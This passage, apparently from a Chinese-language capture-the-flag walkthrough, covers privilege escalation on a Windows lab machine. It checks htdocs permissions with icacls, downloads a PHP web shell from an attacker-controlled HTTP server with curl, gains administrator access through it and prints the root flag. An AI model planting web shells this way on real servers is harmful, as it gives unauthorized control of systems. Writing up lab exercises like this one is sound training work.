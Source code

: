 

查看htdocs权限，发现有system权限，文件夹是system权限的，那么webshell拿到的也应该是system的，上传个web后门进行提权。

```
icacls htdocs
```

![img](../图片/截图_2023-12-17_16-17-56.png)



临时开启http服务，使用curl命令传输文件

```
curl http://10.10.16.16:4455/shell.php -o 1.php
```

![img](../图片/截图_2023-12-17_16-07-19.png)

访问网站进入web后门拿到administrator权限，拿到root flag：

```
77ff2c46fb0328661aab55841d2c2e01
```
